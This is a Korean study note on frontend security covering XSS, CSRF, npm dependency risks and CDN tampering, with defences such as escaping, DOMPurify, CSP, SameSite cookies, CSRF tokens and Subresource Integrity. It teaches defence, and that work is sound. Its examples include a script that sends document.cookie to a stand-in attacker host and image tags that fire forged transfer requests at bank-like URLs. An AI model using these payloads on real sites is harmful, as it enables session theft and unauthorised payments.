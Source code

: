 # 🔐 프론트엔드 보안 요약 정리

## 1. 🧨 XSS (Cross-site Scripting)

📌 정의
사용자가 입력한 악성 스크립트가 escape 처리 없이 DOM에 삽입되어,
브라우저에서 실제 JS 코드로 실행되는 공격.

💥 공격 예시

```html
<script>
  fetch("https://danger.site/steal?c=" + document.cookie);
</script>
```

🛡️ 대응 방법

✅ HTML Escape (기본 방어)

React/Vue에서 기본적으로 {}로 출력 시 escape 처리됨

`<script>`가 단순 텍스트로 보임

- ex) ` <script>alert()</script>`-> `&lt;script&gt;alert()&lt;/script&gt;`

✅ DOMPurify (콘텐츠 정화) (라이브러리)

사용자가 작성한 HTML을 dangerouslySetInnerHTML, v-html 등으로 렌더링할 때 사용

```tsx
import DOMPurify from "dompurify";

const cleanHTML = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: cleanHTML }} />;
```

✅ CSP (Content Security Policy)

외부 스크립트 및 인라인 `<script>` 실행 자체를 차단

```http
Content-Security-Policy: script-src 'self'; object-src 'none' frame-ancestors 'none';
```

- Clickjacking이란?

  사용자에게 진짜처럼 보이는 버튼을 보여주고, 실제로는 투명 iframe 위에 올려놓아서
  민감한 작업 (예: 구매, 이체, 삭제 등)을 유도하는 공격

## 2. 💥 CSRF (Cross-site Request Forgery)

📌 정의

로그인된 사용자가 악성 사이트를 방문했을 때,
그 사용자의 세션 쿠키로 무단 요청이 전송되는 공격.

💥 공격 예시

```html
<img src="https://kbank.com/transfer?to=attacker&amount=100000" />
<img src="https://toss.im/pay?user=attacker&amount=50000" />
<img src="https://kb-bank.com/remit?target=evil&amount=30000" />
```

🛡️ 대응 방법

| 방법                 | 설명                                                |
| -------------------- | --------------------------------------------------- |
| `SameSite` 쿠키 설정 | `Strict` 또는 `Lax` 설정으로 Cross-Origin 요청 차단 |
| CSRF Token 적용      | 서버가 발급한 CSRF 토큰을 함께 요청해야 처리        |
| Referer 검사         | 요청의 출처를 서버에서 확인하여 차단 가능           |

## 3. 📦 패키지 의존성

📌 정의

npm/yarn 등으로 설치한 외부 라이브러리에 알려진 취약점이 포함될 경우,
서비스 전체 보안에 악영향을 줄 수 있음.

🛡️ 대응 방법

✅ 의존성 감사

```bash
npm audit
pnpm audit
yarn audit
```

✅ Snyk, Socket.dev 사용

- GitHub, GitLab CI 연동으로 지속적인 취약점 모니터링

✅ 최소 의존성 유지

- 불필요한 모듈 제거

- 최신 버전 유지 (npm outdated, npm update)

## 4. 🌐 CDN 스크립트 취약성

📌 정의

외부 CDN에서 불러오는 JS 파일이 변조되었을 경우,
사용자 브라우저에서 악성 코드가 실행될 수 있음.

🛡️ 대응 방법

Subresource Integrity (SRI) 적용 integrity 속성으로 변조된 리소스 로딩 차단

```html
<script
  src="https://cdn.example.com/lib.js"
  integrity="sha384-abc123..."
  crossorigin="anonymous"
></script>
```

| 방법                             | 설명                                         |
| -------------------------------- | -------------------------------------------- |
| Subresource Integrity (SRI) 적용 | `integrity` 속성으로 변조된 리소스 로딩 차단 |
| 자체 번들링 권장                 | Webpack/Vite로 CDN 대신 로컬 패키지 사용     |
| CSP로 CDN 제한                   | `script-src`에 명시적으로 허용된 출처만 사용 |

📁 요약(공격별 대응 방법)

XSS: escape, DOMPurify, CSP

CSRF: SameSite, Token, Referer 검사

패키지 취약점: audit, Snyk, 최소 의존성

CDN: SRI, CSP, 자체 번들링

